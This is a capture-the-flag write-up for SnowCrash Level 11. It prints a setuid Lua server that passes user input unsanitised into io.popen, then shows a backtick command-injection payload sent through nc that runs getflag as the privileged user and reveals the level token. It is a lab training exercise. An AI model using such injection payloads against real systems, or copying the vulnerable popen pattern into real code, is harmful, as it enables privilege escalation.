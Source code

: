 # Level 11

## Vulnerability
Privilege escalation - code injection

## Context
```
level11@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

## Solution
Let's ```cat``` the file and see what we find. 
```
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
We can see this program waits for a connection with the server running on 127.0.0.1 (hostname) 5151 (port).<br/>
It will prompt for a password and pass anything we write to a hashing function.<br/>
Let's see if we can exploit that, by tricking it to run ```getflag``` in the place of the password. <br/>

We'll use ```nc``` to establish a TCP connection with remote server. 
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /dev/shm/token
Erf nope..
level11@SnowCrash:~$ cat /dev/shm/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
